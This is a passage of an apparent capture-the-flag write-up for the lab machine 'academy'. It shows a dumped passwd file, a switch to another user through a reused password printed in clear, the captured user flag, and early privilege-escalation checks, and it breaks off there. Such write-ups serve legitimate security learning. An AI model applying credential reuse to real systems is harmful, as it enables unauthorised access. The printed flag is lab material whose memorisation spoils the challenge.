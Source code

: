 ```console
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
```

Trying if the password was reused by one of the users with a configured shell environment was the way to proceed.

```console
www-data@academy:/var/www/html/academy$ su - cry0l1t3
su - cry0l1t3
Password: mySup3rP4s5w0rd!!

$
```

## user.txt

```console
$ cat user.txt
cat user.txt
bd47647a304cf0620aaba81d2b812086
```

# The way to root

I performed some basic checks like `id` and `sudo -l` to get more intel about the abilities of this user.

```console
$ id
id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

```console
$ sudo -l
sudo -l
[sudo] password for cry0l1t3: mySup3rP4s5w0rd!!

Sorry, user cry0l1t3 may not run sudo on academy.
```
